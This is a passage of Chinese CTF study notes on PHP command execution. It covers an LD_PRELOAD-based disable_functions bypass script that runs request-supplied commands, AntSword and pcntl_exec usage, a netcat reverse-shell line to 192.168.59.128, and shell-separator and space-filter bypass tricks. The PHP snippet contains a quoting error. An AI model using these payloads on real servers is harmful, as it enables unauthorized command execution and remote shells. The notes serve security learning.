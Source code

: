 ```php+HTML
<?php
$cmd = $_REQUEST["cmd"];
$out_path = $_REQUEST["outpath"];
$evil_cmdline = $cmd.">"$out_path." 2>&1";
echo "<br /><b>cmdline:</b>".$evil_cmdline;
putenv("EVIL_CMDLINE=".$evil_cmdline");

$so_path = $_REQUEST["sopath"];
putenv("LD_PRELOAD=".$so_path);
main('','','','');
echo "<br /><b>output:<b/><br />".nl2br(file_get_contents($out_path));

?>
```

## 5：蚁剑及pcntl绕过函数过滤

#### 蚁剑：

![image-20250807111349150](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250807111349150.png)

![image-20250807111404906](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250807111404906.png

github地址：https://github.com/AntSword-Store/as_bypass_php_disable_functions

#### pcntl_exec函数：

函数原型：pcntl_exec(string $path, array $args = ?, array $envs = ?)   要**额外安装**

参数path：h必须是一个可执行二进制文件路径或者开头指明解释器的脚本   比如/bin/bash -c 'ls'

参数args：一个传递给程序的字符串数组

参数envs：一个传递给程序作为环境变量的字符串数组

info信息：**没有禁用**该函数

**没有回显：**

1. **cat文件并重定向输出到有权限读取的路径，如上**
2. **反弹shell**

示例如下：

```cmd=pcntl_exec("/bin/bash",array("-c","nc 192.168.59.128 33333 -e /bin/bash"));```

## 6：操作系统连接符

| ;            | &                                            | \|                                       | &&                                     | \|\|                                   |
| :----------- | -------------------------------------------- | ---------------------------------------- | -------------------------------------- | -------------------------------------- |
| 顺序执行命令 | 需要url编码为%26，前面一个命令在**后台**执行 | 管道符，前面命令的结果作为后面命令的参数 | 前一个命令执行**成功**才执行后一个命令 | 前一个命令执行**失败**才执行后一个命令 |

## 7：空格过滤绕过

1. 重定向字符<>```cat /flag   cat</flag   cat<>/flag```
2. 大括号```{cat,/flag}```
3. 使用$IFS代替；$IFS ${IFS}  $IFS$9                 ```ls$IFS-l```        防止后面的内容被当作变量名使用${IFS}或者$IFS$9，$9是当前系统shell进程第九个命令行参数，一般为空。（到10就要${10}）
4. url编码	%09(Tab)   %20(space)            (基本没用)

## 8：文件名过滤（正则匹配绕过）

过滤php、system、flag

```